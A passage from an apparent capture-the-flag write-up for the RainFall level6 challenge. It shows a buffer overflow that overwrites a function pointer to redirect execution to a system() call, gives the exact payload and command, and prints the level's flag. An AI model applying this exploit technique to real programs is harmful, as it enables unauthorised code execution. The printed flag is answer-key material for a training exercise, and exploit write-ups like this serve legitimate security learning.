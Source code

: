 **Overflow Confirmation:**
- **72 bytes of "A"**: Fills buffer and reaches function pointer
- **"BBBB" (0x42424242)**: Overwrites function pointer
- **Crash at 0x42424242**: Confirms we control the function pointer!

## Exploitation Strategy - Function Pointer Hijacking

### 10. The Attack Plan
```
Normal Execution Flow:
strcpy(buffer, argv[1]) → call *function_ptr → m() → puts("Nope")

Exploited Execution Flow:
strcpy(buffer, evil_argv[1]) → call *function_ptr → n() → system()!

Key Components:
1. 72 bytes of filler to reach function pointer
2. Address of n() (0x08048454) to replace m()'s address
3. Little-endian format for x86 architecture
```

### 11. Crafting the Exploit Payload
```bash
# Target: Overwrite function pointer with address of n()
# n() address: 0x08048454
# Little-endian format: \x54\x84\x04\x08

level6@RainFall:~$ python -c 'print "A"*72 + "\x54\x84\x04\x08"'
```

**Payload Breakdown:**
- **"A" * 72**: Filler bytes to reach the function pointer (72 bytes)
- **"\x54\x84\x04\x08"**: Address of function `n()` in little-endian format

### 12. Understanding Little-Endian Byte Order
```
Address of n(): 0x08048454

Big-endian (human readable): 08 04 84 54
Little-endian (x86 format):  54 84 04 08

Why little-endian?
Intel x86 processors store multi-byte values with the least significant byte first.
So 0x08048454 is stored in memory as: 54 84 04 08
```

## Exploitation Implementation

### 13. Execute the Exploit
```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

